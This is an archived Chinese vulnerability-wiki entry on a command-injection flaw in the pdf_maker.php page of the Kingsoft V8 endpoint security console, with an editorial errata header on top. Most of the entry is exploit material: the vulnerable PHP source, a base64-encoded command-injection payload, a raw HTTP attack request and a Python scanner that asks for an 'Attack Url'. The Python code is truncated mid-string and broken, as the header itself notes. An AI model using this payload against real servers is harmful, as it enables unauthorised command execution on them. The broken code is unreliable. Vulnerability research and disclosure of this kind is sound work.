




# 金山 V8 终端安全系统 pdf maker-php 命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：金山V8终端安全系统管理控制台
- 文献类型：命令注入源码与PoC转载
- 版本、权限及部署边界：Windows控制台pdf_maker.php解码url/fileName后拼接shell；Apache分支行为不同，认证需查require文件
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 实际集中管理Web控制台，V8是产品版本非JavaScript引擎；目录/标题pdf maker-php需标准pdf_maker.php
2. Base64是编码不是加密；核心url/fileName进入shell的具体sink已给应保留
3. Python data字符串被截断且未闭合，整段语法无效；200且Windows回显检测不足以证漏洞，不能断言不存在
4. HTTP示例带PHPSESSID但Python无Cookie，是否未授权需要查看公共鉴权文件和对照响应
5. V8总称无构建号、安全版本/公告，HTTP安装包链接需来源与哈希
6. 清理大段广告，保留PeiQi原始文库来源与Apache执行分支

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/R5RvWHNVycEez7qxquxUhQ>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<http://duba-011.duba.net/netversion/Package/KAVNETV8Plus.iso>
- 原文参考链接（未重新核验）：<http://wiki.peiqi.tech>
- 原文参考链接（未重新核验）：<https://github.com/PeiQi0>
- 原文参考链接（未重新核验）：<http://xxx.xxx.xxx.xxx>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/R5RvWHNVycEez7qxquxUhQ)


**一****：漏洞描述🐑**

**金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令**

**二:  漏洞影响🐇**

**金山 V8 终端安全系统**

**三:  漏洞复现🐋**

```
V8安装包 地址
http://duba-011.duba.net/netversion/Package/KAVNETV8Plus.iso
```

**存在漏洞的文件为**

```
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
  
  
  //$post = file_get_contents("php://input");
  
  /*
  $post = array("kptl"=>
      array("set_exportpdf_cmd"=>array(
        "url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
        "fileName"=>"test1234.pdf"
        )
      ));
      */
      
  
      
  
  

  $url = $_POST["url"];
  $fileName =  $_POST["fileName"];
  $batName=$fileName;
  if ($url == null || $fileName == null)
  {
    $return["nResult"] = __LINE__;
    echo json_encode($return,JSON_UNESCAPED_UNICODE);
    return ;
  }
  
  $url = base64_decode($url);
  $nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
  $fileName="..\\htmltopdf\\".$nameStr;

  system('mkdir ..\\htmltopdf');

  
  $cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
  if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
    $cmd =" del ".$fileName;

    exec($cmd);
    $url_= str_replace('%','%%', $url);
    $cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
    $batName ="exec_wkhtmltopdf.bat";
    $myfile = fopen($batName , "w");
    //$cmd =iconv("UTF-8", "gbk", $cmd );
    fwrite($myfile, $cmd);
    fclose($myfile);
    $cmd =$batName ;
    exec($cmd);
    $cmd =" del ".$batName;
    exec($cmd);
    }else
    {
  system($cmd);
    }
  // echo $url;
  $return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
  echo json_encode($return,JSON_UNESCAPED_UNICODE);
  
?>
```



```
这里传入 base64加密的拼接命令即可执行任意命令
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```



 ****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/inter/pdf_maker.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "url=IiB8fCBpcGNvbmZpZyB8fA==&file
    try:
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Windows" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 ,执行 ipconfig, 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



****六:  Goby & POC🦉****

```
https://github.com/PeiQi0/PeiQi-WIKI-POC
Goby & POC 目录中
```



 ****六:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
